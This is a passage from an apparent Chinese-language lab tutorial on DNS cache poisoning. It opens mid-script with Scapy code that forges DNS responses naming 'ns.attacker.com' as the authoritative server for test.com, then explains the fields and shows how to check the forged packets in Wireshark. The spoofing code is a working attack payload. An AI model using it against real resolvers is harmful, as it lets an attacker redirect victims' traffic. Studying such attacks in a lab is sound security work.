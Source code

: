 ```python
            rd=1,               # 递归查询
            qd=DNSQR(qname=query_domain),  # 查询部分
            an=DNSRR(rrname=query_domain, ttl=300, rdata=attacker_ip),  # 回答部分
            ns=DNSRR(rrname="test.com", ttl=300, rdata="ns.attacker.com"),  # 权威部分
            ar=DNSRR(rrname="ns.attacker.com", ttl=300, rdata=attacker_ip)  # 附加部分
        )

        # 将各层组合成完整的 DNS 包
        forged_packet = ip_layer / udp_layer / dns_layer

        # 发送伪造的 DNS 响应包
        send(forged_packet, verbose=0)

# 调用函数发送伪造包
send_forged_dns_responses()
```

------

### **详细说明代码实现**

1. **随机生成 `transactionID`**：
   - `transactionID` 是 DNS 响应的唯一标识符，需要与原始 DNS 请求的 `transactionID` 匹配。
   - 使用 `random.randint(0, 65535)` 生成。
2. **构造权威部分 (`Authority Section`)**：
   - 包含伪造的权威 DNS 服务器 `ns.attacker.com`。
   - 通过 `DNSRR(rrname="test.com", rdata="ns.attacker.com")` 设置。
3. **构造附加部分 (`Additional Section`)**：
   - 指定 `ns.attacker.com` 的 IP 地址为攻击者的 IP（`10.10.10.X`）。
   - 通过 `DNSRR(rrname="ns.attacker.com", rdata=attacker_ip)` 设置。
4. **发送伪造包**：
   - 使用 `send()` 函数发送伪造的 DNS 响应包。
   - 每个包都会包含随机的 `transactionID`。

------

### **验证与演示**

#### **1. 验证伪造包的正确性**

1. **在 Wireshark 中捕获流量**：

   - 设置过滤器：

     ```
     udp.port == 33333
     ```

   - 检查伪造包的内容，确认：

     - `transactionID` 是随机生成的。
     - 权威部分显示 `ns.attacker.com`。
     - 附加部分显示 `ns.attacker.com` 的 IP 地址为 `10.10.10.X`。

